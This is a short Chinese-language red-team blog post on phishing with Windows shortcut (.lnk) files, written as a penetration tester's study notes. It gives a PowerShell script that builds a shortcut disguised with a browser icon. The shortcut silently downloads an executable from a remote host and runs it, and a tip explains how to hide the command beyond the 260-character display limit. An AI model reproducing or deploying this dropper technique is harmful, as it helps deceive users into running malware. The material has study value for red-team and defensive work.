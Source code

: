 ```yaml
---
title: "Fishing"
date: 2021-01-04T22:14:26+08:00
draft: false
tags: [Fishing]
categories: [RedTeam]
comment: true
---
```

Fishing


- 前言

**在常年攻防演练以及红蓝对抗中常被用于红方攻击的一种进行打点的方式，由于本人只是个安服仔，接触的比较少（但也不能不学），就有了这篇文章，参考各位大佬的姿势总结一下。**

## 钓鱼手段

### Lnk（快捷方式）

可以在“⽬标”栏写⼊⾃⼰的恶意命令，如powershell上线命令等，这里举例为CMD

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103160612.png)

当我点击谷歌浏览器时，弹出了CMD

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103160947.png)

可以进行更改图标

![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103161253.png)

- 快速生成lnk样本

```
$WshShell = New-Object \-comObject WScript.Shell  
$Shortcut = $WshShell.CreateShortcut("test.lnk")  
$Shortcut.TargetPath = "%SystemRoot%\\system32\\cmd.exe"  
$Shortcut.IconLocation = "%SystemRoot%\\System32\\Shell32.dll,21"  
$Shortcut.Arguments = "cmd /c powershell.exe -nop -w hidden -c IEX (new-object net.webclient).DownloadFile('http://192.168.1.7:8000/ascotbe.exe','.\\\\ascotbe.exe');&cmd /c .\\\\ascotbe.exe"  
$Shortcut.Save()
```

运行

```
powershell -ExecutionPolicy RemoteSigned -file test.ps1
```
![](https://maekdown-1300474679.cos.ap-beijing.myqcloud.com/20210103163314.png)


- Tips

**目标文件位置所能显示最大字符串为260个，所有我们可以把执行的命令放在260个字符后面**
